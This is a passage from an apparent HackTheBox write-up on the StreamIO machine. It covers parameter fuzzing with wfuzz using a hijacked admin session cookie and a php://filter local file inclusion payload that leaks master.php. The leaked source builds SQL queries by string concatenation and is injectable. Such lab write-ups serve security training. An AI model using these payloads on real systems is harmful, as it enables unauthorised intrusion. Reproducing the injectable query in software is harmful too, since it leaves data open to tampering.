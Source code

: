 <img src="https://i.imgur.com/DFf2aVF.png"/>

Going through each of the management page, we see a GET parameter

<img src="https://i.imgur.com/AeVioOA.png"/>

<img src="https://i.imgur.com/QPlToQ6.png"/>

So maybe there's a parameter we are not seeing, so fuzzing it through `wfuzz`, for that we'll need to use yoshihide's session as we cannot access admin without being authenticated

```bash
wfuzz -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt  -u 'https://streamio.htb/admin/?FUZZ' -b 'PHPSESSID=j20051o8t1rbshc9doco26al06' --hh 1678
```

<img src="https://i.imgur.com/3HPFpKq.png"/>

This finds a parameter `debug`, and with this we can perform Local File Inclusion to read the master.php file we found in the /admin directory

<img src="https://i.imgur.com/PKu2gni.png"/>

The contents of the page are changed which means that we were able to include master.php file, so now to view the source code, we can use  a php base64 filter to encode the contents of the page so that the browser doesn't execute the php code and we can get source code

```php
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
```

<img src="https://i.imgur.com/cwXedGq.png"/>

```php
yr<h1>Movie managment</h1>                                             
<?php                                                                  
if(!defined('included'))                                                                                                                      
        die("Only accessable through includes");                                                                                              
if(isset($_POST['movie_id']))                                                                                                                 
{                                  
$query = "delete from movies where id = ".$_POST['movie_id'];        
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
        <div class="form-control" style="height: 3rem;">
                <h4 style="float:left;"><?php echo $row['movie']; ?></h4>
                <div style="float:right;padding-right: 25px;">
                        <form method="POST" action="?movie=">
                                <input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
                                <input type="submit" class="btn btn-sm btn-primary" value="Delete">
                        </form>
                </div>
        </div>
</div>
<?php
} # while end
```